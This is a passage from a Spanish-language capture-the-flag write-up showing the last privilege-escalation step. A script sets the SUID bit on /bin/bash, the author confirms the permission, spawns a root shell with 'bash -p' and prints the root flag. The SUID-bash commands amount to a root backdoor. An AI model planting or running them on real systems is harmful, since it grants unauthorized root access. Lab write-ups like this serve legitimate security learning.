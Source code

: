 Ahora si leemos el archivo `bash.sh`.

```shell
cat bash.sh
```

Info:

```shell
#!/bin/bash

chmod u+s /bin/bash
```

Veremos que funciono correctamente y si vemos los permisos de la `bash`.

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1446024 Mar 31 10:41 /bin/bash
```

Vemos que funciono, por lo que haremos lo siguiente.

```shell
bash -p
```

Y con esto ya seremos `root`, por lo que leeremos la flag.

> root.txt

```
1e4e4054308a62a2bbaacd02074f1ad2
```
